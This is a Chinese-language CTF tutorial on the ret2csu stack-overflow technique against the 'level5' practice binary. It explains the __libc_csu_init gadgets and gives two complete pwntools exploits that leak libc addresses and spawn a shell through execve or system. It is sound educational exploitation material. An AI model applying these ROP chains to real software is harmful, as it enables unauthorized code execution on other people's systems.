


ret2csu 在x64的程序中，函数的前六位参数是通过寄存器来进行传递的，传参顺序分别是rdi , rsi , rdx , rcx , r8 , r9，超过六位的参数则通过栈进行传参。但是大多数时候，我们很难恰好找到控制这些寄存器的 gadgets 。这时候就可以利用x64下的 __libc_csu_init 中的 gadgets ，因为这个函数是用来对 libc 进行初始化操作的，而一般的程序都会调用 libc 函数，所以这个函数一定存在。同时利用完这段 gadget 之后可以控制函数的前三个参数（即 rdi rsi rdx）以及其他寄存器和调用函数地址，所以这个 gadget 也被称为 通用 gadget
ret2csu原理 以蒸米的level5 为例，找到 __libc_csu_init 的地址（可能是不同版本libc或者编译器选项对这个函数地址和指令有一定影响）
用objdump来反汇编，-d 表示进行反汇编，-M intel 表示选择intel架构的汇编，默认是AT&T
1 objdump -d -M intel ./level5

从0x400606到0x400628这段地址，将rsp偏移+8，+16，+24，+32，+40，+48的值依次赋给rbx，rbp，r12，13，r14，r15，然后将rsp+0x38，执行ret。意味着可以利用栈溢出构造栈上数据来控制这些寄存器，而这些寄存器的值恰好可以为gadget2所用，最后通过覆盖ret重新控制程序执行流程。
从0x4005F0到0x4005F9这段地址，将r15，r14，r13d分别赋值给rdx，rsi，edi（这里赋值给的是rdi的低32位，但是rdi的高32位寄存器是0，所以可以控制rdi，虽然只能控制rdi的低32位），而这三个寄存器是 x64 函数调用中传递的前三个寄存器。call指令的地址由r12和rbx这两个寄存器控制，如果可以控制r12和rbx，就可以调用我们想要调用的函数（通常为了方便，会把rbx设置为0，用r12来控制函数地址）。
从0x4005FD到0x400604这段地址，为了不让程序重复跳转到 loc_4005F0，只需要控制 rbx+1==rbp 即可，前面rbx=0，所以把rbp=1。程序继续向下执行回到gadget1，而0x400624地址的指令让rsp+0x38，所以需要0x38个字符来填充，最后覆盖掉ret的地址，这样就可以完成一次ROP。
ret2csu例题 继续以刚才的level5为例，其C源码如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 #undef _FORTIFY_SOURCE #include <stdio.h> #include <stdlib.h> #include <unistd.h> void vulnerable_function () char buf[128 ]; read(STDIN_FILENO, buf, 512 ); } int main (int argc, char ** argv) write(STDOUT_FILENO, "Hello, World\n" , 13 ); vulnerable_function(); }
保护机制
1 2 3 4 5 6 7 gnq@gnq:~/c/ROP_STEP_BY_STEP/linux_x64$ checksec level5 [*] '/home/gnq/c/ROP_STEP_BY_STEP/linux_x64/level5' Arch: amd64-64-little RELRO: Partial RELRO Stack: No canary found NX: NX enabled PIE: No PIE (0x400000)
通过IDA找到漏洞点，read函数存在栈溢出
1 2 3 4 5 6 ssize_t vulnerable_function () char buf; return read(0 , &buf, 0x200 uLL); }
程序并没有system函数和/bin/sh直接供我们利用，用ROPgadget查看可以调用的gadget也不多，那么就可以利用ret2csu
利用思路：
payload1 通过 libc_csu_init 函数的gadget 调用 write 函数 泄露出 write_got 的地址，并且重新返回main函数
通过泄露出来的write_got，计算libc基址，找到excve函数地址
payload2 再次执行 libc_csu_init函数的gadget，用read函数在bss段写入execve函数地址，bss+8写入/bin/sh的字符串，并重新返回main函数
payload3 再次执行 libc_csu_init函数的gadget，调用执行bss段中的execve(“/bin/sh”)
通过栈溢出把返回地址覆盖成libc_csu_init 的gadget1，在栈上布置参数让rbx=0,rbp=1,r12=write_got,r13=1，r14=write_got，r15=8，再ret到gadget2（因为赋值是从rsp+8开始，所以需要填充8个字节给rsp）
1 2 3 4 5 6 7 8 .text:0000000000400606 mov rbx, [rsp+8 ] ; gadget1 .text:000000000040060B mov rbp, [rsp+16 ] .text:0000000000400610 mov r12, [rsp+24 ] .text:0000000000400615 mov r13, [rsp+32 ] .text:000000000040061 A mov r14, [rsp+40 ] .text:000000000040061F mov r15, [rsp+48 ] .text:0000000000400624 add rsp, 38 h .text:0000000000400628 retn
程序执行流程跳转到gadget2，会将r15赋值给rdx，r14赋值给rsi，r13d赋值给edi。由于之前控制r12=write_got，rbx=0。所以程序会call write_got。这样就可以执行write(1,write_got,8)泄露write_got的地址
1 2 3 4 .text:00000000004005F 0 mov rdx, r15 ; fd gadget2 .text:00000000004005F 3 mov rsi, r14 ; buf .text:00000000004005F 6 mov edi, r13d ; count .text:00000000004005F 9 call qword ptr [r12+rbx*8 ]
之前在gadget1已经让rbx=0，rbp=1，所以程序会继续向下执行，也就是回到gadget1（否则程序又会跳转到loc_4005F0），因为0x400624的指令是 add rsp，38h，所以需要0x38个字节来填充，最后再ret到main函数为接下来的操作做准备
1 2 3 .text:00000000004005F D add rbx, 1 .text:0000000000400601 cmp rbx, rbp .text:0000000000400604 jnz short loc_4005F0 ; gadget2
 经过payload1已经泄露了write_got的地址，用libcsearcher计算出libc的基址和execve的地址（这里我用在线找libc偏移 ），再次调用 libc_csu_init 的gadget 用read函数在bss段写入execve、bss+8写入/bin/sh，让程序再次返回main
tips：这里的exp与Wiki上面的不一样，可能是因为libc版本或者编译器导致的 libc_csu_init 函数的地址和指令不一样
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 from pwn import *p=process("./level5" ) elf=ELF("./level5" ) write_got=elf.got['write' ] read_got=elf.got['read' ] main_addr=elf.symbols['main' ] bss_addr=elf.bss() gadget1=0x400606 gadget2=0x4005F0 def csu (rbx,rbp,r12,r13,r14,r15,ret ): payload='a' *0x80 + 'b' *0x8 + p64(gadget1) payload+=p64(0 ) payload+=p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15) payload+=p64(gadget2) payload+='a' *0x38 payload+=p64(ret) return payload p.recvuntil("Hello, World\n" ) payload1=csu(0 ,1 ,write_got,1 ,write_got,8 ,main_addr) p.sendline(payload1) log.success("\n===== send payload1 =====\n" ) write_addr=u64(p.recv(6 ).ljust(8 ,'\x00' )) log.success("write_addr:{}" .format (hex (write_addr))) libc=ELF("./libc6_2.23-0ubuntu11.2_amd64.so" ) libc_base=write_addr-libc.symbols['write' ] execve_addr=libc_base+libc.symbols['execve' ] log.success("execve_addr:{}" .format (hex (execve_addr))) p.recvuntil("Hello, World\n" ) payload2=csu(0 ,1 ,read_got,0 ,bss_addr,0x100 ,main_addr) p.sendline(payload2) p.send(p64(execve_addr)+'/bin/sh\x00' ) log.success("\n===== send payload2 =====\n" ) payload3=csu(0 ,1 ,bss_addr,bss_addr+8 ,0 ,0 ,main_addr) p.sendline(payload3) log.success("\n===== send payload3 =====\n" ) p.interactive()
贴一下蒸米的exp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 from pwn import *elf = ELF('level5' ) libc = ELF('libc.so.6' ) p = process('./level5' ) got_write = elf.got['write' ] print "got_write: " + hex (got_write)got_read = elf.got['read' ] print "got_read: " + hex (got_read)main = 0x400564 off_system_addr = libc.symbols['write' ] - libc.symbols['system' ] print "off_system_addr: " + hex (off_system_addr)payload1 = "\x00" *136 payload1 += p64(0x400606 ) + p64(0 ) +p64(0 ) + p64(1 ) + p64(got_write) + p64(1 ) + p64(got_write) + p64(8 ) payload1 += p64(0x4005F0 ) payload1 += "\x00" *56 payload1 += p64(main) p.recvuntil("Hello, World\n" ) print "\n#############sending payload1#############\n" p.send(payload1) sleep(1 ) write_addr = u64(p.recv(8 )) print "write_addr: " + hex (write_addr)system_addr = write_addr - off_system_addr print "system_addr: " + hex (system_addr)bss_addr=0x601028 p.recvuntil("Hello, World\n" ) payload2 = "\x00" *136 payload2 += p64(0x400606 ) + p64(0 ) + p64(0 ) + p64(1 ) + p64(got_read) + p64(0 ) + p64(bss_addr) + p64(16 ) payload2 += p64(0x4005F0 ) payload2 += "\x00" *56 payload2 += p64(main) print "\n#############sending payload2#############\n" p.send(payload2) sleep(1 ) p.send(p64(system_addr)) p.send("/bin/sh\0" ) sleep(1 ) p.recvuntil("Hello, World\n" ) payload3 = "\x00" *136 payload3 += p64(0x400606 ) + p64(0 ) +p64(0 ) + p64(1 ) + p64(bss_addr) + p64(bss_addr+8 ) + p64(0 ) + p64(0 ) payload3 += p64(0x4005F0 ) payload3 += "\x00" *56 payload3 += p64(main) print "\n#############sending payload3#############\n" sleep(1 ) p.send(payload3) p.interactive()
参考 好好说话之ret2csu Mac PWN 入门系列（七）Ret2Csu 一步一步学ROP之linux_x64篇 – 蒸米